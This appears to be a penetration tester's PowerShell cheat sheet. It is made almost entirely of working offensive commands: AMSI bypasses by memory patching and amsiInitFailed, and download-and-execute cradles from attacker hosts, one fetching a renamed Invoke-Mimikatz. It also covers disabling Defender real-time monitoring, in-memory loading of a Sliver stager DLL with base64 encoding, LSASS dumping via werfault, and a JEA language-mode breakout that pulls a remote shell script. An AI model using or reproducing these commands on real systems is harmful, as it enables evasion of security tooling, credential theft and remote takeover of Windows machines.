 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


### Bypassing AMSI to execute malicious scripts 

- ASMI Bypass Powershell code with inspiration from (https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b)
	- use ASBB.ps1 as a base
	- If downloading scripts that will be flagged by AMSI, rename them
	- add download code for these scripts at the end of ASBB.ps1
	- example for `Invoke-Mimikatz.ps1` which is renamed to `IM.ps1`
```powershell
(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/IM.ps1') | IEX
```
- Download example
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire “iex(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/ASBB.ps1')”
```

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- Download and execute Powershell script

```powershell
 iex (New-Object Net.WebClient).DownloadString('http://ipaddress/script.ps1')
```

```powershell
Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://ipaddress/script.ps1').Content
```

- View Applocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Users

- Who is logged in?
```powershell
Get-WmiObject -Class Win32_ComputerSystem | Select-Object -ExpandProperty UserName
```


### Execute in memory

- Download and execute a dll
```powershell
$assembly = [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')); $class = $assembly.GetType('GoodShip.GoodShip'); $method = $class.GetMethod('LoadStager'); $method.Invoke($null, $null)
```


## Powershell Base64 Conversion

```powershell
$script = @"
\$webClient = New-Object System.Net.WebClient
\$dllBytes = \$webClient.DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')
\$assembly = [System.Reflection.Assembly]::Load(\$dllBytes)
\$goodShipType = \$assembly.GetType('GoodShip.GoodShip')
\$loadStagerMethod = \$goodShipType.GetMethod('LoadStager')
\$loadStagerMethod.Invoke(\$null, \$null)
"@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encodedScript = [Convert]::ToBase64String($bytes)
$encodedScript
```


## Dump a process

```powershell
# Get process by name or PID
$process = Get-Process -Name "notepad"

# Create a dump using task manager
Start-Process taskmgr.exe /PID $process.Id /DumpFile C:\dumps\processdump.dmp

```


### Dumping LSASS using werfault

```powershell
$lsass = Get-Process -Name lsass
$dumpPath = "C:\dumps\lsass.dmp"
Start-Process -FilePath "werfault.exe" -ArgumentList "/dump $($lsass.Id) $dumpPath"
```


## No-Language Mode Breakout (JEA)

```powershell
&{IEX(New-Object Net.WebClient).downloadString('http://192.168.45.159:8000/ps/shell.ps1')}
```

